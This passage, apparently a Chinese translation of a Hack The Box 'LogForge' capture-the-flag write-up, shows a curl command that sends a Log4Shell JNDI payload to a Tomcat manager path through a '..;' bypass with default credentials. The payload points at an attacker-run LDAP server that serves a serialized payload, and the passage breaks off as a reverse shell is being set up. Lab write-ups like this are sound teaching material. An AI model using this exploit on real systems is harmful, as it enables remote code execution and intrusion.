 现在，我们可以像以前一样使用 curl 来触发 JNDI 漏洞利用，但这一次我们将它指向 JNDI 漏洞利用工具包托管的目标，所以使用我们从上面选择的那个:

```
┌──(root💀kali)-[~/htb/logforge]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12:389/u3rmld}" 
-H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

切换到 tcpdump 查看 ping:

![](img/2f68dd12672ce5169ec69e142f648ec5.png)

对 ping 使用 JNDI 漏洞的响应

如果您回头看看我们使用 exploit kit 运行的 LDAP 服务器，我们会看到连接，我们的响应是传递 pencer.ser 有效负载:

![](img/664ee0adea73acc188f23a254725a82d.png)

JNDI 漏洞利用工具包 LDAP 服务器响应有效负载

这证实了我们可以在服务器上远程执行代码。让我们给自己弄一个反向 shell，使用 PentestMonkey 的一个简单的 shell，就像我们在 [Dynstr](https://pencer.io/ctf/ctf-htb-dynstr/#reverse-shell) 上做的一样:
